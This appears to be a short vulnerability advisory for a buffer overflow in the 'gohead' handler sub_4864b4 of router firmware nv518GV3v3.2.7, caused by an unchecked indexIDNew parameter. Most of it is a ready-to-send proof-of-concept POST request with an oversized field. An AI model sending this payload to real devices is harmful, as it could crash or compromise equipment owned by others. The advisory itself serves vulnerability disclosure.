

# FUN_004864b4 漏洞信息

## 基础信息
- **影响组件**: /gohead/sub_4864b4
- **固件版本**: nv518GV3v3.2.7-210919-161313

## 漏洞详情

gohead/sub_4864b4



Because the length of Var is not validated, an attacker can manipulate the size of indexIDNew, leading to a buffer overflow

poc：

```
POST gohead/sub_4864b4 HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Not=A?Brand";v="24", "Chromium";v="140"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/first.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 98

indexIDNew=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```